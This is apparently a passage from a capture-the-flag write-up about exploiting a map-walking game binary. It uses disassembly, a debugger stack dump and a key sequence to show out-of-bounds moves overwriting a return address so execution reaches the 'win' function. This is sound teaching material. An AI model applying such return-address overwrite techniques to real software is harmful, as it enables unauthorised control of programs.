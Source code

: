 ```bash
08049871 <main>:
~~~
 8049947:       e8 07 fb ff ff          call   8049453 <print_map>
 804994c:       83 c4 10                add    $0x10,%esp
 804994f:       8b 85 58 f5 ff ff       mov    -0xaa8(%ebp),%eax
 8049955:       83 f8 1d                cmp    $0x1d,%eax
 8049958:       75 6d                   jne    80499c7 <main+0x156>
 804995a:       8b 85 5c f5 ff ff       mov    -0xaa4(%ebp),%eax
 8049960:       83 f8 59                cmp    $0x59,%eax
 8049963:       75 62                   jne    80499c7 <main+0x156>
 8049965:       8b 85 54 f5 ff ff       mov    -0xaac(%ebp),%eax
 804996b:       83 f8 04                cmp    $0x4,%eax
 804996e:       74 57                   je     80499c7 <main+0x156>
 8049970:       83 ec 0c                sub    $0xc,%esp
 8049973:       8d 83 e8 e0 ff ff       lea    -0x1f18(%ebx),%eax
 8049979:       50                      push   %eax
 804997a:       e8 31 f7 ff ff          call   80490b0 <puts@plt>
 804997f:       83 c4 10                add    $0x10,%esp
 8049982:       83 45 f4 01             addl   $0x1,-0xc(%ebp)
 8049986:       8b 85 54 f5 ff ff       mov    -0xaac(%ebp),%eax
 804998c:       83 c0 01                add    $0x1,%eax
 804998f:       89 85 54 f5 ff ff       mov    %eax,-0xaac(%ebp)
 8049995:       83 ec 0c                sub    $0xc,%esp
 8049998:       8d 85 58 f5 ff ff       lea    -0xaa8(%ebp),%eax
 804999e:       50                      push   %eax
 804999f:       e8 62 fb ff ff          call   8049506 <init_player>
~~~
```
It seems that it is good to jump to '0x8049970', so all you have to do is look for the return address of '0x80499XX' on the stack. 
Note that the program will crash when moving outside the map because it moves while rewriting the memory to '.'('0x2e'). 
It is better to move down one line of the place you want to rewrite on the map, and pinpoint it at the end with 'w'. 
Imagine moving to the end of the address with 'aaaaawwwaaaawsddddaaw' and going up by 8 bytes. 
I made a breakpoint in 'move_player' and looked at the stack and it was as follows.  
```
00:0000│ esp 0xffffc37c —▸ 0x804992c (main+187) ◂— add esp, 0x10
01:0004│-ac8 0xffffc380 —▸ 0xffffc3a0 ◂— 0x0
02:0008│-ac4 0xffffc384 ◂— 0x77 /* 'w' */
03:000c│-ac0 0xffffc388 —▸ 0xffffc3af ◂— 0x2e2e2e2e ('....')
04:0010│-abc 0xffffc38c —▸ 0xffffc39c ◂— 0x4
05:0014│-ab8 0xffffc390 —▸ 0xf7fbe480 ◂— '/lib/i386-linux-gnu/libc.so.6'
06:0018│-ab4 0xffffc394 —▸ 0xffffcf10 ◂— 0x1
07:001c│-ab0 0xffffc398 ◂— 0x0
08:0020│-aac 0xffffc39c ◂— 0x4
09:0024│ eax 0xffffc3a0 ◂— 0x0
0a:0028│-aa4 0xffffc3a4 ◂— 0xfffffffd
0b:002c│-aa0 0xffffc3a8 ◂— 0x2e001b
0c:0030│-a9c 0xffffc3ac ◂— 0x2e000040 /* '@' */
0d:0034│-a98 0xffffc3b0 ◂— 0x2e2e2e2e ('....')
```
Since we want to rewrite the '0xffffc37f', we just need to move it up 4 * 12 bytes. 
This satisfies the condition that the current level is 5 and the previous level is 4. 
If you use 'p' after that, you can go to 'win', but the level will keep going up forever. 
I can't help it, so I use the same technique as before and jump to the place where I call 'win' in 'main'.
```bash
$ objdump -D ./game

./game:     file format elf32-i386
~~~
08049871 <main>:
~~~
```